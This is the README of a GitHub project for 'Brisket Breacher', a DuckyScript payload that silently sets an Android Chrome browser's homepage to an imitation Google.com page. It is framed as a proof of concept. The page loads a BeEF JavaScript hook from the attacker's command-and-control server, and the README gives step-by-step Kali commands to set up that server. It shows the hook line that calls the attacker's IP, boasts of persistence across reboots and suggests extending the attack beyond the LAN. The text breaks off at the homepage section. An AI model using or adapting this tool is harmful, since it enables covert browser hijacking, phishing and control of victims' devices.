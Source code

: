 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
### > Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box.
1. Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  
2. Install BeEF:
    - `sudo apt install beef-xss -y`
     
3. Download the [homepage.html](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/homepage.html) file (described next). This will be the homepage that our malicious URL will point to and deliver the BeEF C2 hook.
    - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file. E.g., `<script src="http://192.168.8.100:3000/hook.js"></script>`.
    - Become root: `sudo su`.
    - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

4. Start BeEF:
    - `sudo beef-xss`.
   -----
### > The homepage.
